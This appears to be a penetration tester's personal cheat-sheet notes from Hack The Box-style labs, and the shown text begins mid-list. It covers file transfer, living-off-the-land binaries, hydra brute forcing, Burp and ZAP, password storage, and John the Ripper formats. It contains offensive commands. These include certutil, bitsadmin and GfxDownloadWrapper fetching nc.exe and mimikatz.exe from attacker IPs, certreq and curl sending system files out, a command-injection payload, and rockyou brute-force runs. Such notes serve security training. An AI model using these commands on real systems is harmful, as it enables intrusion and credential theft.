            - `sudo ncat -l -p 443 --send-only < SharpKatz.exe`
  - powershell remoting
    - requires the user to be part of hte Remote Management Users group
    - create new session
      - `$Session = New-PSSession -ComputerName DATABASE01`
    - copy to (-ToSession)
      - `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`
    - copy from (-FromSession)
      - `Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`
  - remote desktop 
    - mounting folder, will be accessible `\\tsclient\`
      - rdesktop
        - `rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`
      - xfreerdp
        - `xfreerdp /v:10.10.10.132 /d:HTB /u:htb-student /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
        - `xfreerdp /v:$ip /u:htb-student /p:'HTB_@cademy_stdnt!'`
  - nginx
    - create directory for handle uploaded files
      - `sudo mkdir -p /var/www/uploads/SecretUploadDirectory`
    - change owner to www-data
      - `sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory`
    - create new file based on nginx-upload.conf
      - `/etc/nginx/sites-available/nginx-upload.conf`
    - symlink our site to the sites enabled directory
      - `sudo ln -s /etc/nginx/sites-available/nginx-upload.conf /etc/nginx/sites-enabled/`
    - start nginx
      - `sudo systemctl restart nginx.service`
      - errors are found here
        - `cat /var/log/nginx/error.log`
        - check for port in use
          - `ss -lnpt | grep '80'`
          - `ps -ef | grep '2811'`
      - check if we have directory listing enabled because we dont want to be showing anyone who browses that site all the files
        - http://localhost/SecretUploadDirectory
    - test upload
      - `curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt`
- living off the land
  - [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
    - Intel Graphics Driver for Windows 10
      - `GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"`
    - certreq.exe
      - victim to attacker
        - attacker listens
          - `sudo nc -lvnp 80`
        - victim posts
          - `certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini`
          - if error, check the version for -post paramater
            - get updated version - https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe
    - bitsadmin (background intelligent transfer service)
      - victim download file
        - `bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.ex`
        - using powershell
          - ` Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"`
    - certutil
      - victim download 
        - is detected as malicious certutil usage 
        - `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
  - [GTFOBins for Linux Binaries](https://gtfobins.github.io/)
    - openssl
      - attacker to victim
        - attacker
          - create certificate
            - `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`
          - prepare for transfer
            - `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh`
        - victim download
          - `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh`
      - encrypt / decrypt files
        - encrypt
          -   `openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc`
        - decrypt
          - `openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd`


# linux
- may contain passwords
  - `shadow`, `shadow.bak`, `password`
- find
  - `find / monitor.sh -readable -prune`
- zip
  - unzip `unzip file.zip`
- remove all files in directory
  - `sudo rm -r /usr/share/enum4linux-ng/*`
- permissions
  - `ls -la <path/to/fileorbinary>`
  - `sudo -l`
- create list of numbers for fuzzing
  - `for i in $(seq 1 1000); do echo $i >> ids.txt; done`

# windows
  - may contain passwords
    - `unattend.xml`, `sysprep.inf`, `SAM`
- accounts
  - Administrator This account is used to accomplish administrative tasks on the local host.
  - Default Account 	The default account is used by the system for running multi-user auth apps like the Xbox utility.
  - Guest Account 	This account is a limited rights account that allows users without a normal user account to access the host. It is disabled by default and should stay that way.
  - WDAGUtility Account 	This account is in place for the Defender Application Guard, which can sandbox application sessions.
- 


# oneliners
- powershell
  - convert a file to base64 and copy to clip `[convert]::ToBase64String((Get-Content -path "test.file" -Encoding byte)) | Set-Clipboard`
  - convert base64 to file (needs to be in history first) `$clip=Get-Clipboard;[IO.File]::WriteAllBytes("$PWD\clipboard.paste", [Convert]::FromBase64String($clip))`
  - convert json file to csv `(Get-Content -Raw -Path .\test.json | ConvertFrom-Json) | ForEach-Object { $_ | Export-Csv -Append -Path 'output.csv' -NoTypeInformation }`
  - copy to clipboard `Get-Content C:\Users\user1\.ssh\id_ed25519.pub | Set-Clipboard`
  - get from clipboard `get-clipboard`
  - unzip a file `expand-archive file.zip`
  - get send receive bytes auto updating `do {Get-NetAdapterStatistics | where-object { $_.Name -contains "wi-fi"}; sleep 5} while ($true)`
  - get file size of drives `get-volume -DriveLetter D,E`
- nmap
  - list all ports scanned by default `nmap -v -oG - | grep "Ports scanned"`


# walkthroughsa
- https://www.natussec.com/blog/htb-academy-labs-footprinting-medium


# identifying servers


  - [ttl from ping](https://ostechnix.com/identify-operating-system-ttl-ping/) 
    - `ttl=128` windows
    - `ttl=64` linux
    - `ttl=57` redhat
  - nmap
    - os detection 
      - `sudo nmap -v -O 192.168.86.39`
    - banner grab
      - `sudo nmap -v 192.168.86.39 --script banner.nse`


curl post
- `curl -d 'name=linuxize' -d 'email=linuxize@example.com' https://example.com/form/`


# brute forcing 
- types
  - Online Brute Force Attack 	Attacking a live application over the network, like HTTP, HTTPs, SSH, FTP, and others
  - Offline Brute Force Attack 	Also known as Offline Password Cracking, where you attempt to crack a hash of an encrypted password.
  - Reverse Brute Force Attack 	Also known as username brute-forcing, where you try a single common password with a list of usernames on a certain service.
  - Hybrid Brute Force Attack 	Attacking a user by creating a customized password wordlist, built using known intelligence about the user or the service.
- Basic Authentication
  - Process
    - 1. **Client Request**: The client sends an HTTP request to access a protected resource on the server.
    - 2. **Server Challenge**: The server responds with a 401 Unauthorized status code, along with a `WWW-Authenticate` header indicating that basic authentication is required.
    - 3. **Client Credentials**: The client resends the request with the `Authorization` header containing the word "Basic" followed by a space and a base64-encoded string of "username:password".
    - 4. **Server Verification**: Upon receiving the request with credentials, the server decodes the base64-encoded string to retrieve the username and password.
    - 5. **Authentication**: The server verifies the provided username and password against its authentication system.
    - 6. **Access Granted/Denied**: If the credentials are valid, the server responds with the requested resource (200 OK). If the credentials are invalid, the server responds with a 401 Unauthorized status code again.
  - default passwords are most common so always start with that `SecLists/Passwords/Default-Credentials`
    - `hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip -s 51689 http-get /`
    - specifying username and password `hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /`
    - we know the password, lets bruteforce names `hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f $ip -s PORT http-get /`
- hydra modules
  - `hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e`
  - `"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`
  - `sudo hydra -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -l admin -f 94.237.62.149 -s 53459 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`
- create personalised wordlists
  - cupp
    - `cupp -i`
    - clean up based on password policy
      - `sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8`
      - `sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars`
      - `sed -ri '/[0-9]+/!d' william.txt            # remove no numbers`
- mangling
  - creating permutations of words
  - (rsmangler)[https://github.com/digininja/RSMangler]
  - (the mentalist)[https://github.com/sc0tfree/mentalist.git]
- generate custom username wordlist
  - (username anarchy)[https://github.com/urbanadventurer/username-anarchy]
    - `git clone https://github.com/urbanadventurer/username-anarchy.git`
    - `./username-anarchy Bill Gates > bill.txt`


# web proxies
- burpsuite
  - payloads
    - `ip=;ls;` command injection
      - `ip=;cat flag.txt;`
  - intercept requests `Proxy -> Intercept -> [Intercept is on/off]`
  - intercept response `Proxy -> Proxy Settings -> Intercept Server Responses -> [x] Intercept Response`
    - modify the html before it reaches the client so you can bypass input controls
      - change `type=number` to `type=text`
      - change `maxlength=3` to `maxlength=100`
  - match and replace rules `Proxy -> Proxy Settings -> Match and replace rules`
    - can do request|response headers and body, parameters
    - match `Match: ^User-Agent.*$` line with `Replace: User-Agent: HackTheBox Agent 1.0`
  - send proxy history to repeater to modify request
  - intruder
    - history -> send to intruder
    - sniper one payload
    - 
- proxychains
  - routes all traffic coming from any command-line tool to any proxy we specify
  - `/etc/proxychains4.conf`
    - uncomment quiet mode (no output from library) `quiet_mode`
    - send all traffic through burp `http 127.0.0.1 8080`
    - exec `proxychains curl http://www.google.com`
- zap
  - cookies
    - get cookie from response `Set-Cookie: cookie=084e0343a0486ff05530df6c705c8bb4` the cookie is md5 hashed for user
    - set cookie in request `Cookie: cookie=084e0343a0486ff05530df6c705c8bb4`
    - set `084e0343a0486ff05530df6c705c8bb4` as token to replace, use list `/usr/share/seclists/Usernames/top-usernames-shortlist.txt` and add processes of `md5`
  - active scan
    - remember to spider first otherwise it only scans one page


# passwords
- linux 
  - `cat /etc/shadow`
    - `<username>:<encryptedpassword>:<day of last change>:<min age>:<max age>:<warning period>:<inactivity period>:<expiration date>:<reserved field>`
      - `<encryptedpassword>` format `$<id>$<salt>$<hashed>`
        - `<id>` = password type
          - `$1$` 	MD5
          - `$2a$` 	Blowfish
          - `$5$` 	SHA-256
          - `$6$` 	SHA-512
          - `$sha1$` 	SHA1crypt
          - `$y$` 	Yescrypt
          - `$gy$` 	Gost-yescrypt
          - `$7$` 	Scrypt
  - `cat /etc/passwd`
    - `<username>:<password>:<uid>:<gid>:<comment>:<home directory>: <cmd executed after logging in>`
    - password field = x indicates the password is stored in the shadow file, if empty no password is required to authenticate
- windows
  - 
  - winlogon.exe is a trusted process for managing security related user interactions (changing passwords, un/lock endpoint, launching LogonUI to enter passwords)
  - after winlogon.exe gets creds it calls LSASS
  - Local Security Authority Subsystem Service (LSASS) has access to all authentication processes
    - `%SystemRoot%\System32\Lsass.exe`
  - Security Account Manager (SAM) is a database file in Windows operating systems that stores users' passwords
    - passwords stored in LM or NTLM hash
      - no workgroup, all stored locally `%SystemRoot%/system32/config/SAM`
      - domain joined, must validate credentials from Active Directory database (ntds.dit) on the domain, which is stored in `%SystemRoot%\ntds.dit`
    - `HKLM/SAM`
  - [Credentials Processes in Windows Authentication](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)
  - credential manager saves credentials encrypted `C:\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\`
- john the ripper
  - running on local machine is faster whenever possible `/mnt/hgfs/share/brute/john/run`
  - cracked passwords `~/.john/john.pot`
  - `john --format=sha256 hashes_to_crack.txt`
  - wordlists `--wordlist=<wordlistfile>`
  - rules `--rules <hash_file>`
  - incremental `john --incremental <hash_file>` will try every single character for every single length. VERY VERY INTENSIVE
  - cracking files
    - list of tools `locate *2john*`
    - `<tool> <filetocrack> >> file.hash`
      - crack pdf `pdf2john server_doc.pdf > server_doc.hash`


| **Hash Format** | **Example Command** | **Description** |
| --- | --- | --- |
| afs | `john --format=afs hashes_to_crack.txt` | AFS (Andrew File System) password hashes |
| bfegg | `john --format=bfegg hashes_to_crack.txt` | bfegg hashes used in Eggdrop IRC bots |
| bf  | `john --format=bf hashes_to_crack.txt` | Blowfish-based crypt(3) hashes |
| bsdi | `john --format=bsdi hashes_to_crack.txt` | BSDi crypt(3) hashes |
| crypt(3) | `john --format=crypt hashes_to_crack.txt` | Traditional Unix crypt(3) hashes |
| des | `john --format=des hashes_to_crack.txt` | Traditional DES-based crypt(3) hashes |
| dmd5 | `john --format=dmd5 hashes_to_crack.txt` | DMD5 (Dragonfly BSD MD5) password hashes |
| dominosec | `john --format=dominosec hashes_to_crack.txt` | IBM Lotus Domino 6/7 password hashes |
| EPiServer SID hashes | `john --format=episerver hashes_to_crack.txt` | EPiServer SID (Security Identifier) password hashes |
| hdaa | `john --format=hdaa hashes_to_crack.txt` | hdaa password hashes used in Openwall GNU/Linux |
| hmac-md5 | `john --format=hmac-md5 hashes_to_crack.txt` | hmac-md5 password hashes |
| hmailserver | `john --format=hmailserver hashes_to_crack.txt` | hmailserver password hashes |
| ipb2 | `john --format=ipb2 hashes_to_crack.txt` | Invision Power Board 2 password hashes |
| krb4 | `john --format=krb4 hashes_to_crack.txt` | Kerberos 4 password hashes |
| krb5 | `john --format=krb5 hashes_to_crack.txt` | Kerberos 5 password hashes |
| LM  | `john --format=LM hashes_to_crack.txt` | LM (Lan Manager) password hashes |
| lotus5 | `john --format=lotus5 hashes_to_crack.txt` | Lotus Notes/Domino 5 password hashes |
| mscash | `john --format=mscash hashes_to_crack.txt` | MS Cache password hashes |
| mscash2 | `john --format=mscash2 hashes_to_crack.txt` | MS Cache v2 password hashes |
| mschapv2 | `john --format=mschapv2 hashes_to_crack.txt` | MS CHAP v2 password hashes |
| mskrb5 | `john --format=mskrb5 hashes_to_crack.txt` | MS Kerberos 5 password hashes |
| mssql05 | `john --format=mssql05 hashes_to_crack.txt` | MS SQL 2005 password hashes |
| mssql | `john --format=mssql hashes_to_crack.txt` | MS SQL password hashes |
| mysql-fast | `john --format=mysql-fast hashes_to_crack.txt` | MySQL fast password hashes |
| mysql | `john --format=mysql hashes_to_crack.txt` | MySQL password hashes |
| mysql-sha1 | `john --format=mysql-sha1 hashes_to_crack.txt` | MySQL SHA1 password hashes |
| NETLM | `john --format=netlm hashes_to_crack.txt` | NETLM (NT LAN Manager) password hashes |
| NETLMv2 | `john --format=netlmv2 hashes_to_crack.txt` | NETLMv2 (NT LAN Manager version 2) password hashes |
| NETNTLM | `john --format=netntlm hashes_to_crack.txt` | NETNTLM (NT LAN Manager) password hashes |
| NETNTLMv2 | `john --format=netntlmv2 hashes_to_crack.txt` | NETNTLMv2 (NT LAN Manager version 2) password hashes |
| NEThalfLM | `john --format=nethalflm hashes_to_crack.txt` | NEThalfLM (NT LAN Manager) password hashes |
| md5ns | `john --format=md5ns hashes_to_crack.txt` | md5ns (MD5 namespace) password hashes |
| nsldap | `john --format=nsldap hashes_to_crack.txt` | nsldap (OpenLDAP SHA) password hashes |
| ssha | `john --format=ssha hashes_to_crack.txt` | ssha (Salted SHA) password hashes |
| NT  | `john --format=nt hashes_to_crack.txt` | NT (Windows NT) password hashes |
| openssha | `john --format=openssha hashes_to_crack.txt` | OPENSSH private key password hashes |
| oracle11 | `john --format=oracle11 hashes_to_crack.txt` | Oracle 11 password hashes |
| oracle | `john --format=oracle hashes_to_crack.txt` | Oracle password hashes |
| pdf | `john --format=pdf hashes_to_crack.txt` | PDF (Portable Document Format) password hashes |
| phpass-md5 | `john --format=phpass-md5 hashes_to_crack.txt` | PHPass-MD5 (Portable PHP password hashing framework) password hashes |
| phps | `john --format=phps hashes_to_crack.txt` | PHPS password hashes |
| pix-md5 | `john --format=pix-md5 hashes_to_crack.txt` | Cisco PIX MD5 password hashes |
| po  | `john --format=po hashes_to_crack.txt` | Po (Sybase SQL Anywhere) password hashes |
| rar | `john --format=rar hashes_to_crack.txt` | RAR (WinRAR) password hashes |
| raw-md4 | `john --format=raw-md4 hashes_to_crack.txt` | Raw MD4 password hashes |
| raw-md5 | `john --format=raw-md5 hashes_to_crack.txt` | Raw MD5 password hashes |
| raw-md5-unicode | `john --format=raw-md5-unicode hashes_to_crack.txt` | Raw MD5 Unicode password hashes |
| raw-sha1 | `john --format=raw-sha1 hashes_to_crack.txt` | Raw SHA1 password hashes |
| raw-sha224 | `john --format=raw-sha224 hashes_to_crack.txt` | Raw SHA224 password hashes |
| raw-sha256 | `john --format=raw-sha256 hashes_to_crack.txt` | Raw SHA256 password hashes |
| raw-sha384 | `john --format=raw-sha384 hashes_to_crack.txt` | Raw SHA384 password hashes |
| raw-sha512 | `john --format=raw-sha512 hashes_to_crack.txt` | Raw SHA512 password hashes |
| salted-sha | `john --format=salted-sha hashes_to_crack.txt` | Salted SHA password hashes |
| sapb | `john --format=sapb hashes_to_crack.txt` | SAP CODVN B (BCODE) password hashes |
| sapg | `john --format=sapg hashes_to_crack.txt` | SAP CODVN G (PASSCODE) password hashes |
| sha1-gen | `john --format=sha1-gen hashes_to_crack.txt` | Generic SHA1 password hashes |
| skey | `john --format=skey hashes_to_crack.txt` | S/Key (One-time password) hashes |
| ssh | `john --format=ssh hashes_to_crack.txt` | SSH (Secure Shell) password hashes |
| sybasease | `john --format=sybasease hashes_to_crack.txt` | Sybase ASE password hashes |
| xsha | `john --format=xsha hashes_to_crack.txt` | xsha (Extended SHA) password hashes |
| zip | `john --format=zip hashes_to_crack.txt` | ZIP (WinZip) password hashes |


# attacking AD
- targeting
  - ad users for password spraying
  - ad computers like domain controllers, file|web|exchange|database servers
  - key services like kerberos, NetBIOS, LDAP, DNS
  - vulnerable hosts and services
